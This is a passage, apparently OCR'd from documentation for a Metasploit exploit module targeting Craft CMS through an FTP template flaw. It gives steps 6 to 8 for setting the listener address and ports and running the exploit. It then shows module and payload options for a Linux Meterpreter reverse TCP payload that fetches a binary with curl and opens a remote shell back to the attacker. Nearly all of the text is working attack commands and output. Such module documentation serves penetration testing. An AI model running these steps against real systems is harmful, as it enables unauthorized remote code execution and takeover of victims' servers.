 6. Set the local listener address and port:
```bash
set LHOST 192.168.1.36
set LPORT 4444
```

7. Optionally, customize FTP-related settings like `SRVPORT` and `FETCH_URIPATH` if needed:
```bash
set SRVPORT 9090
set FETCH_SRVPORT 8081
set FETCH_URIPATH /custom_payload_path
```

8. Run the exploit:
```bash
exploit
```

**Expected Results**:

If the target is vulnerable, the module will successfully execute the payload and open a session, such as a Meterpreter shell:

```bash
msf6 exploit(linux/http/craftcms_ftp_template) > options

Module options (exploit/linux/http/craftcms_ftp_template):

   Name      Current Setting          Required  Description
   ----      ---------------          --------  -----------
   PASVPORT  0                        no        The local PASV data port to listen on (0 is random)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    exploit-craft.ddev.site  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metaspl
                                                oit.html
   RPORT     80                       yes       The target port (TCP)
   SRVHOST   192.168.1.36             yes       The local host or network interface to listen on. This must be an address on the local machine
                                                 or 0.0.0.0 to listen on all addresses.
   SRVPORT   9090                     yes       The local port to listen on.
   SSL       false                    no        Negotiate SSL for incoming connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   VHOST                              no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      QnXFYebbb        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8081             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:
```